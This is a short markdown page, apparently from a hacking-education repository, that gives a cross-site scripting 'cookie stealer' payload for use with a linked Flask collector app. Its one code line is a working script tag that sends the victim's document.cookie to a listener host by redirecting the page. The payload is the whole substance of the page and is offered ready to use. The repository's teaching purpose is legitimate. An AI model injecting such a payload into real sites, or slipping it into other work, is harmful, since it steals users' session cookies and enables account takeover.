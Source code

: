 # Cookie Stealer Payload
This is the payload that can be used with the [cookie stealer Python/Flask app](https://github.com/The-Art-of-Hacking/h4cker/blob/master/python_ruby_and_bash/cookie_stealer.py).

```
<script type="text/javascript">document.location="http://127.0.0.1:1337/?c="+document.cookie;</script>
```
